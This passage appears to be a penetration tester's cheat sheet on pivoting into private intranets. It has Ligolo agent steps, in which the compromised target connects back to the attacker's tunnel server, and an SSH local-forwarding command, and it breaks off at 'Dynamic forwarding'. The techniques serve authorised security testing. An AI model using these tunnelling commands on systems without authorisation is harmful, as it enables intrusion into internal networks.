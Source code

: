 # Pivoting

A way to access services that cannot be accessed by the outside

Kali -> Pivot Host -> Intranet Host (private)

The `PivotIntranetIP` is the private IP of the Pivot Host that can communicate with the Intranet Host, that is the two IPs share the first blocks, while the `IP` is its public one, that you can already connect to.

## Local forwarding

Send a local service to your machine. 

- **Ligolo** (64 bits only)

  1. On your machine, run `ligstart` to start the ligolo server

  2. File transfer  the agent on the target from `TOOLS/LIGOLO-AGENTS`

  3. On the target:

     ```bash
     ./agent -connect [TUNIP]:[LigoloPort] -ignore-cert
     ```

  4. On the ligolo server:

     ```
     session
     # Select the session
     ```

  5. On you PC, add the route

     ```bash
     ligcreate ligolo 240.0.0.1/32
     ```

  6. On the ligolo server: `start`
  7. Access any local port on `240.0.0.1:[PORT]`

- **SSH**

  ```bash
  ssh -L [ATTACKER_PORT]:[INTRANET_IP]:[TARGET_PORT] [USER]@[IP] -fN
  ```

  - `INTRANET_IP` is a private IP, usually 127.0.0.1

  - `-fN` to background the ssh terminal

  - `-L` can be specified multiple times

## Dynamic forwarding
